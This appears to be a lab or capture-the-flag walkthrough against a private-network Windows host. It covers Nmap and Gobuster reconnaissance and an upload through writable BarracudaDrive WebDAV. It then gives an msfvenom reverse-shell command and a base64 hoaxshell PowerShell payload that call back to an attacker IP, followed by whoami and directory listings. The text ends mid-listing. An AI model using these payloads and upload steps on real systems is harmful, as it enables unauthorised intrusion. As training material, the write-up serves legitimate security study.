








## NMAP

This command executes a comprehensive Nmap scan against the target host 192.168.184.127. It disables host discovery with -Pn, treating the host as online. The scan probes all TCP ports from 1 to 65535 and reports only those in an open state. It performs default script scanning for service enumeration and vulnerability detection, attempts service version detection on open ports, and enables operating system detection based on network stack fingerprinting. The combination of these flags provides a detailed reconnaissance profile of the target's accessible services, potential security issues, and underlying operating system.


```bash
 sudo nmap -sC -sV -Pn -O -p 1-65535 192.168.184.127  --open 
```

The detailed Nmap scan results reveal several critical services and security misconfigurations on the target host. Key findings include the exposure of Windows SMB services on ports 139 and 445, which are commonly targeted for exploitation. An unauthorized MariaDB instance is listening on port 3306. A Barracuda web server on port 8000 supports extensive and potentially risky WebDAV methods, including PUT and DELETE, and may be acting as an open proxy. Most significantly, the FileZilla FTP service on port 30021 allows anonymous authentication and provides full directory listing and file download access, exposing the source code and structure of what appears to be a Ruby on Rails application. An additional unknown service on port 33033 returns a Ruby on Rails error page, suggesting the presence of a web application framework.


```bash
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql         MariaDB 10.3.24 or later (unauthorized)
5040/tcp  open  unknown
8000/tcp  open  http-alt      BarracudaServer.com (Windows)
|_http-server-header: BarracudaServer.com (Windows)
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, PUT, COPY, DELETE, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK
|   Server Type: BarracudaServer.com (Windows)
|   Server Date: Sun, 21 Dec 2025 00:10:43 GMT
|_  WebDAV type: Unknown
| fingerprint-strings: 
|   FourOhFourRequest, Socks5: 
|     HTTP/1.1 200 OK
|     Date: Sun, 21 Dec 2025 00:08:06 GMT
|     Server: BarracudaServer.com (Windows)
|     Connection: Close
|   GenericLines, GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Sun, 21 Dec 2025 00:08:01 GMT
|     Server: BarracudaServer.com (Windows)
|     Connection: Close
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Date: Sun, 21 Dec 2025 00:08:11 GMT
|     Server: BarracudaServer.com (Windows)
|     Connection: Close
|   SIPOptions: 
|     HTTP/1.1 400 Bad Request
|     Date: Sun, 21 Dec 2025 00:09:14 GMT
|     Server: BarracudaServer.com (Windows)
|     Connection: Close
|     Content-Type: text/html
|     Cache-Control: no-store, no-cache, must-revalidate, max-age=0
|_    <html><body><h1>400 Bad Request</h1>Can't parse request<p>BarracudaServer.com (Windows)</p></body></html>
| http-methods: 
|_  Potentially risky methods: PROPFIND PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
|_http-title: Home
|_http-open-proxy: Proxy might be redirecting requests
30021/tcp open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -r--r--r-- 1 ftp ftp            536 Nov 03  2020 .gitignore
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 app
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 bin
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 config
| -r--r--r-- 1 ftp ftp            130 Nov 03  2020 config.ru
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 db
| -r--r--r-- 1 ftp ftp           1750 Nov 03  2020 Gemfile
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 lib
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 log
| -r--r--r-- 1 ftp ftp             66 Nov 03  2020 package.json
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 public
| -r--r--r-- 1 ftp ftp            227 Nov 03  2020 Rakefile
| -r--r--r-- 1 ftp ftp            374 Nov 03  2020 README.md
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 test
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 tmp
|_drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 vendor
|_ftp-bounce: bounce working!
33033/tcp open  unknown
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 403 Forbidden
|     Content-Type: text/html; charset=UTF-8
|     Content-Length: 3102
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8" />
|     <title>Action Controller: Exception caught</title>
|     <style>
|     body {
|     background-color: #FAFAFA;
|     color: #333;
|     margin: 0px;
|     body, p, ol, ul, td {
|     font-family: helvetica, verdana, arial, sans-serif;
|     font-size: 13px;
|     line-height: 18px;
|     font-size: 11px;
|     white-space: pre-wrap;
|     pre.box {
|     border: 1px solid #EEE;
|     padding: 10px;
|     margin: 0px;
|     width: 958px;
|     header {
|     color: #F0F0F0;
|     background: #C52F24;
|     padding: 0.5em 1.5em;
|     margin: 0.2em 0;
|     line-height: 1.1em;
|     font-size: 2em;
|     color: #C52F24;
|     line-height: 25px;
|     .details {
|_    bord
44330/tcp open  ssl/unknown


```

The discovered file "medjed1.png" appears to be a screenshot or configuration page for a BarracudaDrive server's initial setup. It reveals an active setup interface requiring the creation of an administrator account with the username "wait" and an associated email address "wait@hi.email". This indicates the server is in an unconfigured or reset state, presenting a direct opportunity for privilege establishment. An attacker could potentially intercept this setup request or, if the setup is incomplete, claim the administrative account by submitting credentials through this interface, thereby gaining full control over the BarracudaDrive server and its integrated services.




The discovered file "medjed2.png" contains documentation for the BarracudaDrive Web File Server. It details access to a Web File Manager and WebDAV service, with specific mention of a directory path "/ad/" that possesses read and write permissions. This configuration explicitly confirms the earlier scan findings of an active WebDAV server with dangerous methods enabled. The exposed "/ad/" writable directory provides a direct vector for file upload and potential remote code execution. An attacker can leverage a WebDAV client or the web interface to upload malicious files to this location, which could then be executed by the server or accessed by other users, compromising the host.



The discovered file "medjed3.png" depicts a directory listing from a web server, likely corresponding to the BarracudaDrive service on port 8000. The listing shows an apparent root directory for a date-based path "192.168.184.127.2020/01/" and includes several user-created folder names such as "Mail Time", "Mail Tools", "English DB", "Google Hacking DB", and "Access The Event". The presence of these folders, along with entries like "RespeP WiFi Configur..." and a Slack URL, suggests the server is being actively used for storing operational data and potentially sensitive information. The empty file entries with timestamps from 1970 indicate placeholder or incomplete uploads. This finding confirms the Web File Manager is active and contains user data, reinforcing the critical risk posed by the writable WebDAV access.




The Gobuster directory enumeration was performed against the HTTP service on port 45332. The scan successfully identified an accessible `index.html` page and, most critically, a `phpinfo.php` file which returned a 200 status code. The presence of the `phpinfo.php` file is a significant information disclosure vulnerability, as it outputs extensive details about the PHP environment, including configuration settings, loaded modules, system paths, and potentially sensitive environment variables. This data can be leveraged by an attacker to refine further attacks against the application. Additionally, the scan revealed numerous access-denied resources, indicating the server has restrictive permissions in place, and a service-unavailable response for the `/examples` directory.

```bash
gobuster dir -u http://192.168.184.127:45332  -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.184.127:45332
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 308]
/.htaccess            (Status: 403) [Size: 308]
/.htpasswd            (Status: 403) [Size: 308]
/aux                  (Status: 403) [Size: 308]
/cgi-bin/             (Status: 403) [Size: 308]
/com3                 (Status: 403) [Size: 308]
/com2                 (Status: 403) [Size: 308]
/com1                 (Status: 403) [Size: 308]
/con                  (Status: 403) [Size: 308]
/index.html           (Status: 200) [Size: 887]
/licenses             (Status: 403) [Size: 427]
/lpt1                 (Status: 403) [Size: 308]
/lpt2                 (Status: 403) [Size: 308]
/nul                  (Status: 403) [Size: 308]
/phpmyadmin           (Status: 403) [Size: 308]
/phpinfo.php          (Status: 200) [Size: 90796]
/prn                  (Status: 403) [Size: 308]
/examples             (Status: 503) [Size: 408]
/server-info          (Status: 403) [Size: 427]
/server-status        (Status: 403) [Size: 427]
/webalizer            (Status: 403) [Size: 308]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================


```


The discovered file "medjed4.png" contains a direct excerpt from the output of the `phpinfo.php` page. This critical information disclosure confirms the server is running on a Windows 10 host named "MEDJED" using XAMPP with PHP version 7.3.23 and the Apache 2.0 handler. The disclosure includes the absolute path to the PHP configuration file at `C:\xamppp\php\php.ini`. The server path, thread safety being enabled, and the specific build compiler are now known. This information is invaluable for crafting targeted exploits, such as those involving Windows-specific paths or vulnerabilities in the stated PHP version and its associated modules.



The discovered file "medjed5.png" contains a continuation of the `phpinfo.php` output, revealing critical environment and server configuration details. It confirms the full web server stack as Apache/2.4.46 on Windows with OpenSSL/1.1.1g and PHP/7.3.23. The document root is exposed as `C:/xampp/htdocs`, and the script path for `phpinfo.php` is shown as `C:/xampp/htdocs/phpinfo.php`. Crucially, the environment variables expose the system root, the path to `cmd.exe` at `C:\WINDOWS\system32\cmd.exe`, and the executable extensions the system will recognize. The `SERVER_ADMIN` email and the `REMOTE_ADDR` of the probing machine are also visible. This level of detail provides an attacker with all necessary paths and system context to craft precise attacks, including potential command injection or path traversal, and confirms the use of a specific, potentially vulnerable, software stack.




The discovered file "medjed6.png" depicts a directory listing of the Apache document root at `C:/xampp/htdocs`, obtained via the Web File Manager or WebDAV access. The listing confirms the existence of the `phpinfo.php` file alongside the default `index.html`, `script.js`, and `styles.css`. The ability to browse and view this directory listing through the web interface validates the earlier findings of excessive write permissions on the WebDAV `/ad/` directory and demonstrates that an attacker has successfully enumerated the web root contents. This confirms the file upload vector is viable, as an attacker can now directly target this known path to upload a web shell or malicious script for remote code execution.



The command uses msfvenom to generate a Windows x64 reverse shell payload. The payload is configured to connect back to the attacker's machine at IP address 192.168.45.189 on TCP port 139. The output is saved as an executable file named "exploit.exe". This raw, unencoded payload is intended for direct execution on the target Windows host identified in prior reconnaissance. The selection of port 139 is strategic, as it is a common SMB port that may evade egress filtering. This payload creation is a preparatory step for exploitation, likely following the confirmed file upload capability via the WebDAV service.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.189 LPORT=139 -f exe > exploit.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```

The discovered file "medjed7.png" is a screenshot of the BarracudaDrive Web File Manager interface. It shows an active file upload operation in progress. The interface is positioned at the path `C:/xampp/htdocs`, which is the web root directory previously enumerated. The user has selected a file named "exploit.exe" for upload. This action demonstrates the successful weaponization of the earlier discovered vulnerability. The attacker is uploading the generated reverse shell executable directly to the web server's document root, a location from which it can be accessed via HTTP and executed to establish a reverse connection back to the attacker's listening host.





The discovered file "medjed8.png" contains a command prompt window with the prompt `p@wmy@shall:*:`. This indicates a successful remote command execution and the establishment of a shell session on the target host. The prompt format suggests a custom or modified command-line interface, with "p@wmy" potentially representing a username and "shall" possibly indicating the hostname or a directory. The presence of this screenshot confirms that the uploaded "exploit.exe" reverse shell payload was successfully executed, providing the attacker with interactive command-line access to the compromised Windows system, thereby completing the initial exploitation phase and achieving a foothold on the target.



The command executes the hoaxshell tool, a PowerShell-based reverse shell handler, listening on the attacker's IP 192.168.45.189 and port 9999. The tool generates an obfuscated PowerShell one-liner payload designed to beacon back to the listener. This action represents a secondary, more sophisticated persistence mechanism being established on the compromised host. The lengthy Base64-encoded PowerShell command is the payload that would be executed on the target to create a new session, likely to bypass detection or maintain access independently of the initial "exploit.exe" reverse shell. This indicates the attacker is escalating their presence by deploying a additional backdoor.


```bash
uv run  hoaxshell.py -s 192.168.45.189 -p 9999

    ┬ ┬ ┌─┐ ┌─┐ ─┐ ┬ ┌─┐ ┬ ┬ ┌─┐ ┬   ┬  
    ├─┤ │ │ ├─┤ ┌┴┬┘ └─┐ ├─┤ ├┤  │   │                                                                                                                                                       
    ┴ ┴ └─┘ ┴ ┴ ┴ └─ └─┘ ┴ ┴ └─┘ ┴─┘ ┴─┘                                                                                                                                                     
                           by t3l3machus                                                                                                                                                     

[Info] Generating reverse shell payload...
powershell -e JABzAD0AJwAxADkAMgAuADEANgA4AC4ANAA1AC4AMQA4ADkAOgA5ADkAOQA5ACcAOwAkAGkAPQAnADMAMAAzADMAYgA0ADgAZQAtAGUAMAA5AGUAOABmAGYANQAtAGQANQBkADcAZgBmADMAYQAnADsAJABwAD0AJwBoAHQAdABwADoALwAvACcAOwAkAHYAPQBJAG4AdgBvAGsAZQAtAFcAZQBiAFIAZQBxAHUAZQBzAHQAIAAtAFUAcwBlAEIAYQBzAGkAYwBQAGEAcgBzAGkAbgBnACAALQBVAHIAaQAgACQAcAAkAHMALwAzADAAMwAzAGIANAA4AGUAIAAtAEgAZQBhAGQAZQByAHMAIABAAHsAIgBYAC0AMwBlAGQAYwAtADcANQBmADIAIgA9ACQAaQB9ADsAdwBoAGkAbABlACAAKAAkAHQAcgB1AGUAKQB7ACQAYwA9ACgASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHMAZQBCAGEAcwBpAGMAUABhAHIAcwBpAG4AZwAgAC0AVQByAGkAIAAkAHAAJABzAC8AZQAwADkAZQA4AGYAZgA1ACAALQBIAGUAYQBkAGUAcgBzACAAQAB7ACIAWAAtADMAZQBkAGMALQA3ADUAZgAyACIAPQAkAGkAfQApAC4AQwBvAG4AdABlAG4AdAA7AGkAZgAgACgAJABjACAALQBuAGUAIAAnAE4AbwBuAGUAJwApACAAewAkAHIAPQBpAGUAeAAgACQAYwAgAC0ARQByAHIAbwByAEEAYwB0AGkAbwBuACAAUwB0AG8AcAAgAC0ARQByAHIAbwByAFYAYQByAGkAYQBiAGwAZQAgAGUAOwAkAHIAPQBPAHUAdAAtAFMAdAByAGkAbgBnACAALQBJAG4AcAB1AHQATwBiAGoAZQBjAHQAIAAkAHIAOwAkAHQAPQBJAG4AdgBvAGsAZQAtAFcAZQBiAFIAZQBxAHUAZQBzAHQAIAAtAFUAcgBpACAAJABwACQAcwAvAGQANQBkADcAZgBmADMAYQAgAC0ATQBlAHQAaABvAGQAIABQAE8AUwBUACAALQBIAGUAYQBkAGUAcgBzACAAQAB7ACIAWAAtADMAZQBkAGMALQA3ADUAZgAyACIAPQAkAGkAfQAgAC0AQgBvAGQAeQAgACgAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AEIAeQB0AGUAcwAoACQAZQArACQAcgApACAALQBqAG8AaQBuACAAJwAgACcAKQB9ACAAcwBsAGUAZQBwACAAMAAuADgAfQA=                                                                                                                      
[Info] Type "help" to get a list of the available prompt commands.
[Info] Http Server started on port 9999.
[Important] Awaiting payload execution to initiate shell session...


```

This command is the execution of the hoaxshell-generated PowerShell payload on the compromised host. The prompt "Jerren@medjed:C:\xampp\htdocs#" shows the attacker is operating from a shell session as the user "Jerren" on the host "medjed" within the web root directory. The long Base64-encoded string following the `powershell -e` flag is the payload that establishes a new reverse shell connection back to the hoaxshell listener on port 9999. This action confirms the attacker has successfully executed the second-stage payload from within their initial shell, deploying a persistent PowerShell-based backdoor to maintain and potentially upgrade their access on the compromised Windows system.


```bash
Jerren@medjed:C:\xampp\htdocs# powershell -e JABzAD0AJwAxADkAMgAuADEANgA4AC4ANAA1AC4AMQA4ADkAOgA5ADkAOQA5ACcAOwAkAGkAPQAnADMAMAAzADMAYgA0ADgAZQAtAGUAMAA5AGUAOABmAGYANQAtAGQANQBkADcAZgBmADMAYQAnADsAJABwAD0AJwBoAHQAdABwADoALwAvACcAOwAkAHYAPQBJAG4AdgBvAGsAZQAtAFcAZQBiAFIAZQBxAHUAZQBzAHQAIAAtAFUAcwBlAEIAYQBzAGkAYwBQAGEAcgBzAGkAbgBnACAALQBVAHIAaQAgACQAcAAkAHMALwAzADAAMwAzAGIANAA4AGUAIAAtAEgAZQBhAGQAZQByAHMAIABAAHsAIgBYAC0AMwBlAGQAYwAtADcANQBmADIAIgA9ACQAaQB9ADsAdwBoAGkAbABlACAAKAAkAHQAcgB1AGUAKQB7ACQAYwA9ACgASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHMAZQBCAGEAcwBpAGMAUABhAHIAcwBpAG4AZwAgAC0AVQByAGkAIAAkAHAAJABzAC8AZQAwADkAZQA4AGYAZgA1ACAALQBIAGUAYQBkAGUAcgBzACAAQAB7ACIAWAAtADMAZQBkAGMALQA3ADUAZgAyACIAPQAkAGkAfQApAC4AQwBvAG4AdABlAG4AdAA7AGkAZgAgACgAJABjACAALQBuAGUAIAAnAE4AbwBuAGUAJwApACAAewAkAHIAPQBpAGUAeAAgACQAYwAgAC0ARQByAHIAbwByAEEAYwB0AGkAbwBuACAAUwB0AG8AcAAgAC0ARQByAHIAbwByAFYAYQByAGkAYQBiAGwAZQAgAGUAOwAkAHIAPQBPAHUAdAAtAFMAdAByAGkAbgBnACAALQBJAG4AcAB1AHQATwBiAGoAZQBjAHQAIAAkAHIAOwAkAHQAPQBJAG4AdgBvAGsAZQAtAFcAZQBiAFIAZQBxAHUAZQBzAHQAIAAtAFUAcgBpACAAJABwACQAcwAvAGQANQBkADcAZgBmADMAYQAgAC0ATQBlAHQAaABvAGQAIABQAE8AUwBUACAALQBIAGUAYQBkAGUAcgBzACAAQAB7ACIAWAAtADMAZQBkAGMALQA3ADUAZgAyACIAPQAkAGkAfQAgAC0AQgBvAGQAeQAgACgAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AEIAeQB0AGUAcwAoACQAZQArACQAcgApACAALQBqAG8AaQBuACAAJwAgACcAKQB9ACAAcwBsAGUAZQBwACAAMAAuADgAfQA=

```

The hoaxshell listener has received a successful callback from the executed PowerShell payload, verifying its execution and stabilizing a command prompt. The subsequent command `whoami` is executed within this new PowerShell session, returning the output `medjed\jerren`. This confirms the established shell is operating in the context of the user "jerren" on the domain or host "medjed". This step demonstrates the attacker has achieved a stable, interactive PowerShell session with authenticated user context, allowing for further reconnaissance, privilege escalation, and lateral movement within the target environment.

```bash
Shell] Payload execution verified!
[Shell] Stabilizing command prompt...


PS C:\xampp\htdocs > whoami
medjed\jerren
```

The command `dir C:\` was executed from the established PowerShell session to list the root directory of the system drive. The output reveals the structure of the compromised host. Notable entries include directories for "xampp", confirming the earlier web server findings, "FTP" which correlates with the exposed FileZilla service, and "RailsInstaller" with "Ruby26-x64", indicating the presence of a Ruby on Rails development environment as suggested by the earlier FTP source code listing. The presence of a "bd" directory with a recent timestamp and a file named "output.txt" suggests potential prior activity or data from the attacker's current session. This reconnaissance provides the attacker with a layout of the system for further exploration and privilege escalation.

```bash
PS C:\ > dir
Directory: C:\
                                                                                               
Mode                 LastWriteTime         Length Name                                                                                                                                       
----                 -------------         ------ ----                                                                                                                                       
d-----        12/20/2025   7:17 PM                bd                                                                                                                                         
d-----         11/3/2020   1:46 PM                FTP                                                                                                                                        
d-----         12/7/2019   4:14 AM                PerfLogs                                                                                                                                   
d-r---         12/2/2021   1:08 PM                Program Files                                                                                                                              
d-r---         12/2/2021   3:35 PM                Program Files (x86)                                                                                                                        
d-----         11/3/2020   3:43 PM                RailsInstaller                                                                                                                             
